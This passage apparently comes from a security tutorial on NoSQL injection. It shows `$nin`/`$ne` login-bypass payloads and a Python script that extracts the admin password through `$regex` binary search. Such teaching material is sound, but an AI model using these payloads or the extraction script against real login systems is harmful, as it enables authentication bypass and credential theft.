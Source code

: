 If you don't know anything about other users, you can also simply exclude any user you don't want with the `$nin` (Not IN) keyword, and an array:

{% code title="URL parameters" %}
```php
username[$nin][]=admin&username[$nin][]=other&password[$ne]=wrong
```
{% endcode %}

{% code title="JSON" %}
```json
{
  "username": {
    "$nin": ["admin", "other"]
  },
  "password": {
    "$ne": "wrong"
  }
}
```
{% endcode %}

### RegEx Binary Search

Logging in does not regularly respond with the password for example that we made always true. This results in us being logged in, but not knowing the actual password, while it might still be useful to know this.&#x20;

A login action typically is a boolean response, resulting in a successful login, or an unsuccessful one. With the powerful NoSQL operators, we can abuse this feedback to slowly extract values from the query character by character, using `$regex`. The RegEx pattern will match if there is a password with that pattern, and fail if there is not.

This can be optimized by using [Binary Search](https://en.wikipedia.org/wiki/Binary_search_algorithm), an algorithm that allows you to cut in half the search space every time you ask a yes/no question. This makes finding any character in ASCII take only $$log_2(127) \approx 7$$ requests. See the following script for an example:

```python
# A function that returns True if the regex passes
def test_password(regex):
    data = {
        "username": "admin",
        "password": {
            "$regex": regex
        }
    }

    r = requests.post(URL, json=data, allow_redirects=False)

    return not 'Login Failed' in r.text

# Binary Search algorithm
def search_once(test_function, prefix=""):
    min = 0
    max = 127

    while min <= max:
        mid = (min + max) // 2

        if test_function(fr'^{re.escape(prefix)}[\x{mid:02x}-\x7f]'):
            min = mid + 1
        else:
            max = mid - 1

    return chr(max)

```